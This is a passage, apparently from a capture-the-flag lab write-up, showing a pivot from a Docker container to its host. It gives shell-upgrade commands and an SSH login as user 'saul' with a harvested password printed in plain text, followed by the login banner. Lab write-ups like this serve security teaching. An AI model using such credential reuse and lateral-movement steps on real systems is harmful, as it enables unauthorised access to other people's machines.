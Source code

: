 We have been to `172.18.0.2` and now we are in `172.17.0.11`.
We can try to SSH to the main host `172.18.0.1` as one of the users.

```bash
# UPGRADE TTY
$ script -q /dev/null sh 
Ctrl+Z

# In Kali
$ stty raw -echo; fg

# In target
$ export TERM=xterm

$ ssh saul@172.18.0.1
Password: jeO09ufhWD<s
```

## SSH as saul
```bash
$ ssh saul@172.18.0.1                                                                                                                                       
The authenticity of host 172.18.0.1 (172.18.0.1) cant be established.                                                                                    
ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.                                                                                
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                    
Could not create directory '/var/www/.ssh' (Permission denied).                                                                                             
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).                                                                              
saul@172.18.0.1 password:                                                                                                                                 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)                                                                                           
                                                                                                                                                            
 * Documentation:  https://help.ubuntu.com                                                                                                                  
 * Management:     https://landscape.canonical.com                                                                                                          
 * Support:        https://ubuntu.com/advantage                                                                                                             
                                                                                                                                                            
  System information as of Mon 11 Apr 2022 07:11:38 AM UTC                                                                                                  
                                                                                                                                                            
  System load:                      0.02                                                                                                                    
  Usage of /:                       78.7% of 8.80GB                                                                                                         
  Memory usage:                     56%                                                                                                                     
  Swap usage:                       29%                                                                                                                     
  Processes:                        381                                                                                                                     
  Users logged in:                  0                                                                                                                       
  IPv4 address for br-ea74c394a147: 172.18.0.1                                                                                                              
  IPv4 address for docker0:         172.17.0.1                                                                                                              
```